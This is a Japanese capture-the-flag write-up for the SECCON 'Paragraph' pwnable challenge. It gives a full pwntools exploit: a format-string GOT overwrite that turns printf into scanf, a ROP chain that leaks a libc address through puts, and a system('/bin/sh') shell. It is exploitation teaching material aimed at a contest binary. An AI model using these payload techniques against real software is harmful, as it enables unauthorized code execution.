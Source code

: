 ```yaml
---
title: "Paragraph"
points: N/A
tags: ["pwn", "stuck"]
---
```


競技中に解けなかったので、以下を参考にする。

- https://qiita.com/kusano_k/items/0f923627bc604d8e9091#paragraph-pwnable

まず共有ライブラリとローダーを競技環境に揃える。

```
$ ldd chall
        linux-vdso.so.1 (0x00007ffd6835b000)
        libc.so.6 => ./libc.so.6 (0x00007f4d7e38e000)
        ./ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (0x00007f4d7e5a2000)
```

```
$ docker compose  up -d
$ docker cp paragraph-paragraph_dist-1:/srv/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 ./
$ docker cp paragraph-paragraph_dist-1:/srv/lib/x86_64-linux-gnu/libc.so.6 ./
$ patchelf --set-rpath ./ chall
$ patchelf --set-interpreter ./ld-linux-x86-64.so.2 chall
```

checksecを実行するとPIEが無効であることが分かるため、GOT overwriteが出来る。`printf(" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted %s warmly.\n", name);`がscanfになると、BoF可能。

ただ、32文字の制限があるので、完全なアドレスを書き込むことは出来ない。gdbで`info functions printf`をしてみると、printfは`0x00007f???????0f0`に配置されていることが分かる。`info functions scanf`をしてみると、こちらは`0x00007f???????290`に配置されている。末尾の12bitは固定で、下から4桁目の部分が偶然当たれば良い。`1/16`の確率。

以下のコードからオフセットが6であることが分かる。

```python
from pwn import *

context.arch = "amd64"

elf = ELF("./chall")

for i in range(0, 15):
    r = process("./chall", level="error")
    r.recv()
    r.sendline(b"AAAA" + b".%%%d$x"%i)
    v = r.recv()
    if str(v).find("41414141") != -1:
        print(i)
```

まずはFSBで`%25232c`で0x6290分だけ出力。オフセットが6でペイロード (`%25232c%8$hn____`) の16バイト分の2をずらす。で、`elf.got['printf']`である`0x404028`に書き込む。文字列制限の23文字に合わせるため、`[:-1]`。

```python
from pwn import *
import time

context.arch = "amd64"

# ----------------------
# GOT overwirte
# ----------------------
def got_overwrite():
# s = remote("127.0.0.1", 5000)
    s = process("chall")

    s.sendlineafter(b"the black cat asked.\n",
# 0x6290
        b"%25232c%8$hn____"+pack(0x404028)[:-1]
    )

    s.recvuntil(b"\x28\x40\x40")

    for i in range(0, 10):
        if s.poll():
            raise Exception("failed to overwrite")
        time.sleep(0.1)

    return s

while True:
    try:
        s = got_overwrite()
        break
    except Exception as e:
        print('got overwrite: ', e)

# ----------------------
# libc leak
# ----------------------
s.sendline(
    b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted " +
    b"a"*0x28 +
    pack(0x401283) + # pop rdi
    pack(0x404018) + # puts@GOT
    pack(0x401070) + # puts
    pack(0x401196) + # main
    b" !"
)
s.sendline(b"!") # main+83

puts = unpack(s.read(6)+b"\0\0")
print("puts:", hex(puts))

libc = ELF("libc.so.6")
libc.address = puts-libc.symbols.puts

# ----------------------
# /bin/sh
# ----------------------
s.sendline(
    b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted " +
    b"b"*0x28 +
    pack(0x401284) + # ret
    pack(0x401283) + # pop rdi
    pack(next(libc.search(b"/bin/sh"))) +
    pack(libc.symbols.system) +
    b" !"
)

s.interactive()
```